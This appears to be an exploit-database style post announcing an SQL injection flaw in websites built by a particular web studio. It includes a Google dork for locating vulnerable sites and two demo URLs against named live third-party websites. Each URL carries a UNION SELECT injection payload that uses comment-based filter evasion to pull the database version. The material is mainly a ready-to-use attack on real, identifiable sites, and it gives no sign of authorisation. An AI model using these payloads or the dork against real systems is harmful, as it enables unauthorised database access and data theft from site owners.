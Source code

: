     *********************************************************
    #Exploit Title: ariuswebstudio - Sql Injection Vulnerability
    #Date: 2021-07-11
    #Exploit Author: Behrouz Mansoori
    #Google Dork: "site by: www.ariuswebstudio.com"
    #Category:webapps
    #Tested On: windows 10, Firefox


    Proof of Concept:
    Search google Dork: "site by: www.ariuswebstudio.com"


    ### Demo :

    http://lensfedernakulam.com/material.php?id=19%20/*!12345union*/%20/*!12345select*/%201,2,version(),4,5--

    http://munnartourism.org/packagedetails.php?id=-35%27%20/*!12345UNION*/%20SELECT%201,version(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19--+

    *********************************************************
    #Discovered by: Behrouz mansoori
    #Instagram: Behrouz_mansoori
    #Email: mr.mansoori@yahoo.com
    #site : www.bmansoori.ir
    *********************************************************